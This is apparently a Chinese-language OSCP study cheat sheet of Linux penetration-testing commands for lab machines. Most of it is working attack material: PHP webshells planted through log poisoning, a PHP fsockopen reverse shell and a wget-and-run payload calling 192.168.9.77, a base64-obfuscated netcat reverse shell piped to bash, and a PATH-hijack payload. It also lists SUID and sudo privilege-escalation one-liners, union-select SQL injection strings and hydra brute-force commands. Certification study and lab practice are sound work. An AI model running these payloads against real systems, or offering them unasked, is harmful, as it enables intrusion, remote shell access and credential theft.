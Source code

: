 # OSCP --- Linux
**目录扫描**
1. nikto
2. dirb
  a. dirb http:// IP or URL
  b. dirb http:// IP or URL -X .php,.txt -指定后缀名
3. dirbuster
4. robots.txt文件

**LFI**
1. ssh可访问日志: /var/log/auth.log。用ssh ‘<?php system($_GET[‘csd’]);?>’来上传一句话木马来反弹shell。
2. Nginx的可访问日志位置/var/log/nginx/access.log，用Burp上传一句话木马<?php system($_GET[‘cmd’]);?>
3. Apache access and error logs (/var/log/apache2/access.log and /var/log/apache2/error.log).

**反弹shell**
1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
2. php-reverse-shell.php - 修改ip和port

**Wordpress:**
1. wpscan扫描插件 + searchsploit
2. Themes --> Editior --> 找个可以修改的php
3. Plugins -> Add New -> this page

**Drupal**
1. 安装php包(https://www.drupal.org/project/php)
2. 下载好后在Extend下安装PHP模板
3. 安装成功后激活模板
4. 创建php页面来反弹shell

**weevly（IMF靶机）**
1. weevly generate 1234 shell.php
2. weevly http://xxx.xxx.xxx.xxx/.../.../shell.php 1234

**PHPLiteAdmin**
1. 在test_db.php下创建一个数据库，然后再创建一个表格，上传php代码，即可被执行
2. 创建了一个csd的数据库，再在数据库下传教一个表格。然后在value下写入php代码。这里先采用了exp中的<?php phpinfo()?>进行尝试。写入成功后，用之前的文件包含漏洞访问csd.php(文件具体位置在数据库中可见)。
3. 先在kali机上进入/var/www/html目录，创建shell.txt文件。然后在shell.txt文件内写入<?php $sock=fsockopen("192.168.9.77",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>
4. 修改Default Value，设置为<?php system("wget 192.168.9.77/shell.txt -O /tmp/shell.php;php /tmp/shell.php");?>

**哈希加密**
1. john工具：
  a. john --wordlist=xxx password.txt (指定字典)
  b. john password.txt --show
2. Crackstation：https://crackstation.net/
3. echo “xxxxx” | base64 -d
4. Argon2加密（Typo3）

**提权**
1. 查找suid
  a. find / -perm -u=s -type f 2>/dev/null
  b. find / -user root -perm -4000 -print 2>/dev/null
  c. find / -user root -perm -4000 -exec ls -ldb {} \
2. sudo权限
  a. sudo -l查看权限
  b. 查看相关sudo命令的用法
3. vim提权
  a. :set shell=/bin/bash
  b. :shell
4. nmap提权
  a. 交互式（有版本限制）
    1) --interactive进入交互式界面，
    2) !sh
  b. 利用脚本
    1) echo 'os.execute("/bin/sh")' > getShell
    2) sudo nmap --script=getShell
5. find提权
  a. find . -exec /bin/sh -p \; -quit
  b. find test -exec /bin/bash \;
6. gdb提权
  a. gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
7. 利用定时任务crontab来提权
  a. 找到系统中会被root定时执行的脚本
  b. echo "Payload" > 脚本
  c. Kali开启监听，等待root执行反弹shell
8. 环境变量提权（Escalate_Linux）
  a. 查看可用脚本
  b. cd /tmp
  c. 根据要求写文件（例如echo “nc - c /bin/bash ” > ls）
  d. chmod 777 ls
  e. export PATH=/tmp:$PATH
  f. 执行脚本
9. Python提权：
  a. python -c ‘import os; os.system(“/bin/sh”)’
10. zip提权：
  a. 进入tmp目录，创建一个exploit文件
  b. sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"
11. 内核提权
  a. uname -a查看内核版本号
  b. searchsploit查找相关exp

**命令执行**
1. 绕过：
 a. 用单引号（例如c’a’t）
 b. echo + base64加密绕过：
 c. echo bmMgLWMgL2Jpbi9iYXNoIDE5Mi4xNjguOS43NyAxMjM0 |base64 -d | bash

**Web扫描**
1. joomla - joomscan
2. Wordiness - wpscan

**SQL注入**
1. sqlmap
  a. 一般模式：sqlmap - u “xxx” --dbs ---> sqlmap -u “xxx” -D x --tables ---> sqlmap -u “xxx” -D x -T x --columns ---> sqlmap -u “xxx” -D x -T x -C “x,y” --dump-all
  b. 带有session的：
      用Burp截包保存为本地文件（例如sql.txt）
      sqlmap -r sql.txt --dbs .... or sqlmap --cookie ID
2. 手工sql注入
  a. 用 ’ 或者 ’ 1=1 or(and) #(-- ) + ’ 1=2 or(and) #(-- )来判断是否有SQL注入
  b. unionselect语句
      1) Order by + 数字
      2) 若Order by 不成功则从1开始逐个尝试
      3) ' union select group_concat(schema_name),2,3,4,5,6 from information_schema.schemata#
      4) ' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema="xxx"# - 数据库名
      5) ' union select group_concat(table_name),2,3,4,5,6 from xxx.tables where table_schema="yyy"# - 表名
      6) ' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name="zzz" - 表的内容
      7) ' union select group_concat(具体信息),2,3,4,5,6 from Staff.StaffDetails#

**爆破**
1. Burpsuite
2. rockyou.txt
3. cewl http://IP(URL) -w xxx.txt
4. hydra 
  hydra: hydra -L user.txt -P password.txt xxx.xxx.xxx.xxx(ip) ssh
  hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.0.36 http-post-form '/monitoring/index.php:username=^USER^&PASSWORD=^PASS^&Login=Login:Sign In'
5. 模糊测试爆破目录wfuzz（psl1靶机里出现）
  wfuzz -c -w wordlist --hc 404 --hl 6(过滤) http://IP
6. fcrackzip工具尝试爆破压缩包密码
7. stegcracker可以爆破图片信息
8. steghide -u -D -p /usr/share/wordlist/rockyou.txt <filename>爆破图片隐写

**信息搜集**
1. 网页：	
2. 关键字
3. 源码
4. js脚本
5. OS
6. /home/目录下
7. /var/www/下

**杂项**
1. gpg解密(靶机Bob)
2. 跳转域名没法解析：修改/etc/hosts
3. 交互式界面python -c 'import pty; pty.spawn("/bin/bash")' 
4. 端口敲击开放filtered - /etc/knockd.conf
    nc IP port
    Nmap -r -p ports IP 
5. 图片
    base64解密生成图片（Fristileaks靶机里出现）
    下载下来查看备用信息
6. getcap -r / 2>/dev/null查看可用的capability
7. ssh -i id_rsa user@IP（ssh带密钥登录）
8. string读取二进制文件
9. crunch生成字典（TommyBoy靶机）
10。 file code（w34kn3ss）查看文件运用语言
11. uncompyle2/6 - python反编译
12. 查找特殊权限getcap -r / 2>/dev/null
13. Flask = Python + Werkzeug
14. Gobuster vhost 扫描域名。

**Mysql**
1. update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin'; root用户修改密码。


















